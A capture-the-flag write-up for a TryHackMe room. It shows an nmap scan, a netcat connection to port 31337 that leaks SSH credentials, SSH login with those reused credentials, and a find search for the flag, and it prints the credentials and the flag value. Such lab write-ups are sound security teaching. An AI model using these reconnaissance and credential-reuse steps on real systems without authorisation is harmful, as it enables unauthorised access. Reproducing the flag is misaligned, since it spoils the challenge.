

## Overview

This challenge focuses on combining **Nmap service enumeration**, **Netcat interaction**, and **credential reuse** to gain access to a target machine and retrieve the flag. The key learning objective is recognizing how information leaked from a non-standard service can be leveraged to authenticate to a common remote access service.

---
## Enumeration

After deploying both the vulnerable machine and the TryHackMe AttackBox, an Nmap scan was performed against the target:

```bash
nmap -sV -sC MACHINE_IP
```
### Scan Results
```bash
PORT      STATE SERVICE VERSION 
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu
2222/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 
31337/tcp open  Elite?
| fingerprint-strings: 
| DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines,   GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
| In case I forget - user:pass 
|_ ubuntu:Dafdas!!/str0ng
```

The most interesting port here is **31337**, a non-standard port with an unrecognized service.

---
## Investigating Port 31337

The Nmap service fingerprinting output for port 31337 returned the following message repeatedly, regardless of the probe sent:

`In case I forget - user:pass ubuntu:Dafdas!!/str0ng`

This strongly suggests that port **31337 is leaking credentials**.

To confirm, a manual connection was made using Netcat:

```bash
nc MACHINE_IP 31337
```

Output:
```bash
In case I forget - user:pass 
ubuntu:Dafdas!!/str0ng
```

This confirms the credentials:
- **Username:** `ubuntu`
- **Password:** `Dafdas!!/str0ng`

---
## Gaining Access via SSH

Although port 31337 leaks the credentials, it does **not** provide an interactive shell. Attempting to SSH directly to that port fails:

```bash
ssh ubuntu@MACHINE_IP -p 31337
kex_exchange_identification: Connection closed by remote host
```

However, the machine also exposes SSH on the standard port **22**. Using the leaked credentials:

`ssh ubuntu@MACHINE_IP -p 22`

Authentication succeeds, and we gain a shell on the target system:


---
## Post-Login Enumeration

Once logged in, some basic checks were performed:

```bash
whoami --> ubuntu
pwd --> /home/ubuntu
ls --> nothing shown
```

The home directory is empty, indicating the flag is stored elsewhere.

---
## Locating the Flag

A system-wide search was performed to locate the flag file:

```bash
find / -name "flag.txt" 2>/dev/null
```

Result:
```bash
/home/user/flag.txt
```

Navigating to the directory and reading the file:
```bash
cd /home/user ls cat flag.txt
```

---
## Flag

`flag{251f309497a18888dde5222761ea88e4}`

---
## Conclusion

This challenge demonstrates:
- Effective use of **Nmap service enumeration**
- Identifying and exploiting **credential leakage**
- Using **Netcat** to manually interact with unknown services
- Recognizing **credential reuse** across services
- Basic post-exploitation file discovery

A simple but valuable lesson in how small misconfigurations can lead to full system access.

___
## Quick Overview

**nmap**
```bash
nmap -sV -sC MACHINE_IP
```
Enumerate open ports and services on the target.

**netcat**
```bash
nc MACHINE_IP 31337
```
Connect to the high port and retrieve leaked SSH credentials.

**Establish connection**
```bash
ssh ubuntu@MACHINE_IP -p 22
```
Log in via SSH using the discovered credentials.

**Navigating the host:**
```bash
find / -name "flag.txt" 2>/dev/null
```
Locate the flag file on the system.

```bash
cat /home/user/flag.txt
```
Read and capture the flag.